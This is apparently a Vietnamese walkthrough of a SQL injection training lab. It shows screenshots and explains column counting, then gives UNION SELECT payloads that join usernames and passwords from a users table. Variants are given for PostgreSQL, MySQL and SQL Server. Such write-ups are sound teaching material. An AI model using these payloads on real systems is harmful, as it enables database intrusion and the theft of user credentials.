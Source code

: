 ![image](https://github.com/user-attachments/assets/3ba2a7d4-9375-4f09-bfcd-5c036adf61c5)

![image](https://github.com/user-attachments/assets/dd98f6e9-8bca-4a65-b5a0-316fc81bc0eb)

![image](https://github.com/user-attachments/assets/16725c41-dd2f-4fdb-973e-ffab02fa06e3)

Ta xác định được trong câu query có 2 cột.

![image](https://github.com/user-attachments/assets/3c4601e0-fdcd-4b74-84b8-3b49c1ef7bfd)

Tại sao nó lại lỗi :")), có lẽ nào chỉ có 1 cột là string không ?

![image](https://github.com/user-attachments/assets/db5f97ea-89d4-4d62-b68f-22b0d48ebd7f)

Đúng thật.

Vậy giờ ta sẽ có 2 cách, 1 cách là select 2 lần như này, 1 lần username, 1 lần password.

Cách thứ 2 sẽ là dùng toán tử concat operator || để nối giá trị của hai cột username và password trong table users lại với nhau

Vì chỉ có một cột hiển thị, ta cần nối username và password lại thành một chuỗi bằng concat operator (||):

**PostgreSQL, SQLite, Oracle (Dùng || để nối chuỗi)**

```
' UNION SELECT username || ' - ' || password FROM users--
```

**Với MySQL (vì || trong MySQL là toán tử logic, không phải concat)**

```
' UNION SELECT CONCAT(username, ' - ', password) FROM users--
```

**' UNION SELECT username + ' - ' + password FROM users--**

**_Nếu gặp lỗi do NULL_**

Trong SQL Server, nếu một trong hai giá trị username hoặc password là NULL, phép nối chuỗi + có thể trả về NULL toàn bộ chuỗi. Để tránh điều này, dùng ISNULL():

ISNULL(username, 'N/A'): Nếu username bị NULL, thay bằng 'N/A'.

ISNULL(password, 'N/A'): Nếu password bị NULL, thay bằng 'N/A'.

Điều này đảm bảo câu lệnh không bị lỗi NULL và hiển thị đầy đủ kết quả.

```
' UNION SELECT ISNULL(username, 'N/A') + ' - ' + ISNULL(password, 'N/A') FROM users--
```

username || ' - ' || password: Nối username và password bằng dấu - để dễ đọc.

Nếu hệ thống chạy MySQL, thay || bằng CONCAT(username, ' - ', password).

![image](https://github.com/user-attachments/assets/c252b990-1a3c-450e-b90d-21370aab75e8)

Vậy là thành công.
